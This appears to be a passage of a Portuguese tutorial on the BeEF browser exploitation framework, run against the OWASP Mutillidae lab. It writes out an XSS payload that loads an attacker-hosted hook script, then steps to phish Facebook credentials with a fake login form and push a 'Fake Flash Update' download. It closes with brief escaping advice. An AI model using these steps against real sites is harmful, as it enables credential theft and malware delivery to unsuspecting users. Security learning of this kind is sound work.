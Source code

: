   ```bash
  ruby -v
  ```

- editar credenciais do beef. Ir na pasta beef-xss e editar o arquivo config.yaml na linha onde tem credentials e inserir um user e password que preferir.

- Para executar o beef

  ```bash
  sudo ./beef
  ```

  deve aparecer uma resposta ao final as informações:

  Hook URL: <http://127.0.0.1:3000/hook.js>

  UI URL:   <http://127.0.0.1:3000/ui/panel>

  HTTP Proxy: <http://127.0.0.1:6789>
  BeEF server started (press control+c to stop)

- Injetando XSS apontando pro beef

  insira o código abaixo no input ou campo de entrada do XSS na aplicação a ser testada ou pode fazer o teste com a aplicação da OWASP <http://10.0.2.4/mutillidae/index.php?page=add-to-your-blog.php>, inserindo no campo de inserção de post do blog.

  ```html
  <script src="http://127.0.0.1:3000/hook.js"><script>
  ```

  Com isso o script no beef (máquina do invasor), será executado quando listado os posts e no painel do beef (<http://127.0.0.1:3000/ui/panel>) aparecerá um log com várias informações a respeito da máquina que está acessando a máquina da vítima. e há vários comandos que podem ser executados pelo beef que irão refletir na máquina do cliente.

- Exemplo de captura de credenciais do facebook.

  - Carrgar a página que executa o script injetado.
  - Clicar no Hooked Browser identificado pelo beef.
  - Na Aba commands buscar por 'Pretty Theft'.
  - Clicar em execute no canto inferior direito.
  - Aparececerá na tela do broser da vítima um formulário fake do facebook. Ao preecher o mesmo, verá que as informações estarão disponíveis no beef.

- É possível ao invés de usar o 'Pretty theft', usar o 'Fake Flash Update' e fazer com que a vítima baixe alguma arquivo malicioso.

- Prevenção: Para previnir desse tipo de ataque é preciso fazer o "scaping" da execução dos scripts. No java por exemplo poderia ser assim:

  ```java
  String encoding = ESAPI.encoder().encodeForJavaScript();
  ```

  a variável encoding seria apresentada na listagem e não seria executada como HTML ou XML.

  Se estiver usando JSP, o que me dá dó de você, em caso de uma listagem em tabel pode simplesmente inserir o atributo escapeXML="true" em todas as tags <display:column>
